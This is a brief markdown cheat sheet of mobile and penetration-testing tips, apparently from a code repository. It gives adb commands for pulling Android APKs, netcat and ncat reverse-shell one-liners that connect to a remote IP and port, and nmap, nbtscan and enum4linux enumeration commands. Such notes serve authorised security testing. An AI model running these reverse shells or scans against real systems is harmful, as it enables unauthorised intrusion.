 # Tips Mobile

## Android : Download apk from smartphone
### Verify if device is connected
```adb devices```

### View list of installed packages
```adb shell pm list packages```

### Get path of apk
```adb shell pm path com.example.example```

### Get apk 
```adb pull /data/app/com.example.example.path.ecc.ecc```

# Tips PT RT

## Reverse shell

```bash
nc -nv 10.0.0.22 4444 -e /bin/bash
```

```bash
ncat --exec cmd.exe
```

https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

## Enumeration

### nmap
nmap IP -sT

nmap IP --script smb-os-discovery

nmap IP --script smb-*

nmap -sU --open -p 161 IP

Preferred
```
nmap IP -sC -oA nmap-sc
nmap IP -sC -pPORTE -sV -A -oA nmap-sc-sv-a
nmap IP -sC -pPORTE -sV --script=vuln -oA nmap-sc-sv-vuln
nmap IP -p- -sC -oA nmap-allp-sc
```
then some UDP
### nbtscan
nbtscan -r IP

### enum4linux
enum4linux -a IP
